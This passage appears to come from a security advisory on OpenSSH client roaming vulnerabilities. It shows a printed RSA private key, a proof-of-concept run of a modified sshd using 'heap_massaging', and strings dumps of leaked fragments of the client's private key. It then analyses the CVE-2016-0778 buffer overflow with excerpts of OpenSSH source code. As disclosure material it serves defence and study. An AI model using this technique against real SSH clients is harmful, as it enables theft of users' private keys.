cRmpbVfAzJQb85uXUXaNLVW0A/gHqTaGCUWJUwIDAQABAoIBAD0ZpB8MR9SY+uTt j737ZIs/VeF7/blEwCotLvacJjj1axNLYVb7YPN0CGLj61BS8CfKVp9V7+Gc4P/o 6GEmk/oB9w9gf1zGqWkTytMiqcawMW4LZAJlSI/rGWe7lYHuceZSSgzd5lF4VP06 Xz/wTMkSDZh/M6zOnQhImcLforsiPbTKKIVLL6u13VUmDcYfaBh9VepjyN8i+KIV JQB26MlXSxuAp8o0BQUI8FY/dsObJ9xjMT/u2+prtAxpPNfKElEV7ZPBrTRAuCUr Hiy7yflZ3w0qHekNafX/tnWiU4zi/p6aD4rs10YaYSnSolsDs2k8wHbVP4VtLE8l PRfXS6ECgYEAyVf7Pr3TwTa0pPEk1dLz3XHoetTqUND/0Kv+i7MulBzJ4LbcsTEJ rtOuGGpLrAYlIvCgT+F26mov5fRGsjjnmP3P/PsvzR8Y9DhiWl9R7qyvNznQYxjo /euhzdYixxIkfqyopnYFoER26u37/OHe37PH+8U1JitVrhv7s4NYztECgYEAw3Ot gxMqsKh42ydIv1sBg1QEHu0TNvyYy7WCB8jnMsygUQ8EEJs7iKP//CEGRdDAwyGa jwj3EZsXmtP+wd3fhge7pIHp5RiKfBn0JtSvXQQHO0k0eEcQ4aA/6yESI62wOuaY vJ+q7WMo1wHtMoqRPtW/OAxUf91dQRtzK/GpRuMCgYAc7lh6vnoT9FFmtgPN+b7y 3fBC3h9BN5banCw6VKfnvm8/q+bwSxSSG3aTqYpwEH37lEnk0IfuzQ1O5JfX+hdF Q4tEVa+bsNE8HnH7fGDgg821iMgpxSWNfvNECXX71t6JmTOun5zVV6EixsmDn80P pdyhj8fAUU/BceHr/H6hUQKBgCX5SqPlzGyIPvrtVf//sXqPj0Fm9E3Bo/ooKLxU dz7ybM9y6GpFjrqMioa07+AOn/UJiVry9fXQuTRWre+CqRQEWpuqtgPR0c4syLfm qK+cwb7uCSi5PfloRiLryPdvnobDGLfFGdOHaX7km+4u5+taYg2Er8IsAxtMNwM5 r5bbAoGAfxRRGMamXIha8xaJwQnHKC/9v7r79LPFoht/EJ7jw/k8n8yApoLBLBYp P/jXU44sbtWB3g3eARxPL3HBLVVMWfW9ob7XxI4lKqCQ9cuKCBqosVbEQhNKZAj+ ZS16+aH97RKdJD/4qiskzzHvZs+wi4LKPHHHz7ETXr/m4CRfMIU= -----END RSA PRIVATE KEY----- # env ROAMING="heap_massaging:linux" "`pwd`"/sshd -o ListenAddress=127.0.0.1:222 -o UsePrivilegeSeparation=no -f /etc/ssh/sshd_config -h /etc/ssh/ssh_host_rsa_key $ /usr/bin/ssh -p 222 127.0.0.1 ... # strings /tmp/roaming-a2bbc5f6/infoleak cRmpbVfAzJQb85uXUXaNLVW0A/gHqTaGCUWJUwIDAQABAoIBAD0ZpB8MR9SY+uTt j737ZIs/VeF7/blEwCotLvacJjj1axNLYVb7YPN0CG # strings /tmp/roaming-47b46456/infoleak RGAcE0nc GCUWJUwIDAQABAoIBAD0ZpB8MR9SY+uTt j737ZIs/VeF7/blEwCotLvacJjj1axNLYVb7YPN0CGLj61BS8CfKVp9V7+Gc4P/o 6GEmk/oB9 # strings /tmp/roaming-7a6717ae/infoleak cawMW4LZ1 Xz/wTMkSDZh/M6zOnQhImcLforsiPbTKKIVLL6u13VUmDcYfaBh9VepjyN8i+KIV JQB26MlXSxuAp8o0BQUI8FY/dsObJ9xjMT/u2+p # strings /tmp/roaming-f3091f08/infoleak lZ3w0qHe nSolsDs2k8wHbVP4VtLE8l PRfXS6ECgYEAyVf7Pr3TwTa0pPEk1dLz3XHoetTqUND/0Kv+i7MulBzJ4LbcsTEJ # strings /tmp/roaming-62a9e9a3/infoleak lZ3w0qHe r3TwTa0pPEk11 LbcsTEJ rtOuGGpLrAYlIvCgT+F26mov5fRGsjjnmP3P/PsvzR8Y9DhiWl9R7qyvNznQYxjo /euhzdYixxIkfqyopnYFoER26u37/OHe37P # strings /tmp/roaming-8de31ed5/infoleak 7qyvNznQ 26u37/OHe37PH+8U1JitVrhv7s4NYztECgYEAw3Ot gxMqsKh42ydIv1sBg1QEHu0TNvyYy7WCB8jnMsygUQ8EEJs7iKP//CEGRdDAwyGa # strings /tmp/roaming-f5e0fbcc/infoleak yESI62wOuaY vJ+q7WMo1wHtMoqRPtW/OAxUf91dQRtzK/GpRuMCgYAc7lh6vnoT9FFmtgPN+b7y 3fBC3h9BN5banCw6VKfnvm8/q+bwSxS # strings /tmp/roaming-9be933df/infoleak QRtzK/GpRuMC1 C3h9BN5banCw6VKfnvm8/q+bwSxSSG3aTqYpwEH37lEnk0IfuzQ1O5JfX+hdF Q4tEVa+bsNE8HnH7fGDgg821iMgpxSWNfvNECXX71t6JmT # strings /tmp/roaming-ee4d1e6c/infoleak SG3aTqYp tEVa+bsNE8HnH7fGDgg821iMgpxSWNfvNECXX71t6JmTOun5zVV6EixsmDn80P pdyhj8fAUU/BceHr/H6hUQKBgCX5SqPlzGyIPvrtVf//s # strings /tmp/roaming-c2bfd69c/infoleak SG3aTqYp 6JmTOun5zVV6A H6hUQKBgCX5SqPlzGyIPvrtVf//sXqPj0Fm9E3Bo/ooKLxU dz7ybM9y6GpFjrqMioa07+AOn/UJiVry9fXQuTRWre+CqRQEWpuqtgPR0c4s # strings /tmp/roaming-2b3217a1/infoleak DGLfFGdO r5bbAoGAfxRRGMamXIha8xaJwQnHKC/9v7r79LPFoht/EJ7jw/k8n8yApoLBLBYp P/jXU44sbtWB3g3eARxPL3HBLVVMWfW9ob7XxI4lKqCQ9cuKCQ # strings /tmp/roaming-1e275747/infoleak g3eARxPL3HBLVVMWfW9ob7XxI4lKqCQ9cuKCBqosVbEQhNKZAj+ ======================================================================== Buffer Overflow (CVE-2016-0778) ======================================================================== ------------------------------------------------------------------------ Analysis ------------------------------------------------------------------------ Support for roaming was elegantly added to the OpenSSH client: the calls to read() and write() that communicate with the SSH server were replaced by calls to roaming_read() and roaming_write(), two wrappers that depend on wait_for_roaming_reconnect() to transparently reconnect to the server after a disconnection. The wait_for_roaming_reconnect() routine is essentially a sequence of four subroutines: 239 int 240 wait_for_roaming_reconnect(void) 241 { ... 250 fprintf(stderr, "[connection suspended, press return to resume]"); ... 252 packet_backup_state(); 253 /* TODO Perhaps we should read from tty here */ 254 while ((c = fgetc(stdin)) != EOF) { ... 259 if (c != '\n' && c != '\r') 260 continue; 261 262 if (ssh_connect(host, &hostaddr, options.port, ... 265 options.proxy_command) == 0 && roaming_resume() == 0) { 266 packet_restore_state(); ... 268 fprintf(stderr, "[connection resumed]\n"); ... 270 return 0; 271 } 272 273 fprintf(stderr, "[reconnect failed, press return to retry]"); ... 275 } 276 fprintf(stderr, "[exiting]\n"); ... 278 exit(0); 279 } 1. packet_backup_state() close()s connection_in and connection_out (the old file descriptors that connected the client to the server), and saves the state of the suspended SSH session (for example, the encryption and decryption contexts). 2. ssh_connect() opens new file descriptors, and connects them to the SSH server. 3. roaming_resume() negotiates the resumption of the suspended SSH session with the server, and calls resend_bytes(). 4. packet_restore_state() updates connection_in and connection_out (with the new file descriptors that connect the client to the server), and restores the state of the suspended SSH session. The new file descriptors for connection_in and connection_out may differ from the old ones (if, for example, files or pipes or sockets are opened or closed between two successive ssh_connect() calls), but unfortunately historical code in OpenSSH assumes that they are constant: - In client_loop(), the variables connection_in and connection_out are cached locally, but packet_write_poll() calls roaming_write(), which may assign new values to connection_in and connection_out (if a reconnection occurs), and client_wait_until_can_do_something()